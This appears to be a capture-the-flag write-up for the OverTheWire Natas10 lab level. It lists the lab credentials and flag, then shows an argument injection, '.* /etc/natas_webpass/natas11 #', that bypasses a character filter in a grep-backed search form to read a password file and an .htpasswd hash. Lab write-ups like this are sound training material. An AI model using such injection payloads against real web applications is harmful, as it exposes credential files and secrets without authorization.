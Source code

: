 # Natas10

*	user: `natas10`
*	pass: `nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu`
*	url: `http://natas10.natas.labs.overthewire.org`
*	flag: `U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK`

## Procedure

1.	It seems to be similar to Natas9 but here chars `;`, `&` and `|`
	are not allowed. Let's try with other *magic* symbols...

2.	By inserting `*` seems that something is mooving in the right way.
	Indeed, `grep` supports wildcards, so let's try with `.*`...

3.	Well! Files in current dir are listed, but `dictionary.txt` is huge

		.htaccess:AuthType Basic
		.htaccess: AuthName "Authentication required"
		.htaccess: AuthUserFile /var/www/natas/natas10//.htpasswd
		.htaccess: require valid-user
		.htpasswd:natas10:$1$sDWfJg4Y$ewf9jvw0ChWUA3KARHisg.
		dictionary.txt:African
		dictionary.txt:Africans
		dictionary.txt:Allah
		dictionary.txt:Allah's
		dictionary.txt:American
		...

4.	Let's try to exclude it by using `.* #`...

		.htaccess:AuthType Basic
		.htaccess: AuthName "Authentication required"
		.htaccess: AuthUserFile /var/www/natas/natas10//.htpasswd
		.htaccess: require valid-user
		.htpasswd:natas10:$1$sDWfJg4Y$ewf9jvw0ChWUA3KARHisg.

5.	Yep! I feel the smell of the flag! As is Natas7 and Natan9, now
	password should be in

		/etc/natas_webpass/natas11

	Let's try by injecting `.* /etc/natas_webpass/natas11 #`

		.htaccess:AuthType Basic
		.htaccess: AuthName "Authentication required"
		.htaccess: AuthUserFile /var/www/natas/natas10//.htpasswd
		.htaccess: require valid-user
		.htpasswd:natas10:$1$sDWfJg4Y$ewf9jvw0ChWUA3KARHisg.
		/etc/natas_webpass/natas11:U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK
